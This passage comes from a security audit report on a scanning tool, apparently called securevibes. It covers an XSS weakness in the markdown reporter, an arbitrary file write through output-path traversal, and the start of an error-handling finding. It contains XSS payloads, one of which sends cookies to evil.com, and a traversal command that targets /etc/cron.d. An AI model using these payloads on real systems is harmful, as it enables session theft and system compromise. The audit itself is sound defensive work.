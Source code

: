 **Description**:
Markdown reporter escapes pipe characters but not HTML/JavaScript. Malicious agent output rendered in GitHub/GitLab could execute scripts.

**Vulnerable Code**:
```python
# Only escapes pipes, not HTML
title = title.replace("|", "\\|")  # ⚠️ Insufficient sanitization
```

**Attack Payloads**:
- `<img src=x onerror=alert(document.cookie)>`
- `[Click me](javascript:alert('XSS'))`
- `<script>fetch('https://evil.com/?cookie='+document.cookie)</script>`

**Recommendation**:
1. HTML-encode all agent-generated content: `html.escape(text)`
2. Strip HTML tags from title/description/recommendation
3. Use markdown code blocks for all code_snippet fields
4. Add security warning to README about report rendering
5. Consider output content security policy (CSP)

---

### 8. Arbitrary File Write Without Directory Restriction [CWE-73]

**Severity**: 🟠 HIGH  
**Files**: `reporters/json_reporter.py:21`, `reporters/markdown_reporter.py:21`

**Description**:
Reporters create parent directories without validating write path stays within intended directory.

**Code**:
```python
output_file = Path(output_path)
output_file.parent.mkdir(parents=True, exist_ok=True)  # ⚠️ No bounds check
with open(output_file, 'w') as f:
    json.dump(result.to_dict(), f, indent=2)
```

**Attack**: `securevibes scan . --output ../../etc/cron.d/malicious`

**Recommendation**:
1. Validate output path is within repository or .securevibes/
2. Reject absolute paths unless explicitly allowed
3. Check for traversal sequences in output path
4. Set restrictive file permissions: `output_file.chmod(0o600)`

---

### 9. Insufficient Error Handling Exposes Internal Paths [CWE-209]

**Severity**: 🟠 HIGH  
**File**: `packages/core/securevibes/cli/main.py:140-143`
